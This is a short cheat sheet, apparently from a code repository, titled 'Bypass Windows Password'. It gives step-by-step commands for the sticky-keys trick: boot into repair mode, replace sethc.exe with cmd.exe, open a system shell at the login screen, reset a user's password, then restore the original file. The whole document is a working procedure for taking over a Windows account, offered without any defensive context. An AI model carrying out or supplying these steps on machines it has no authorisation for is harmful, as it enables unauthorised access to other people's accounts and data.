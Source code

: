 # Bypass Windows Password #

> Boot from USB

> Repair

> Select OS

> CMD

> copy c:\windows\system32\sethc.exe  c:\

> copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe

> shift 5 times

> control userpasswords2

> Select user and reset passwd

> copy /y c:\sethc.exe c:\windows\system32\sethc.exe
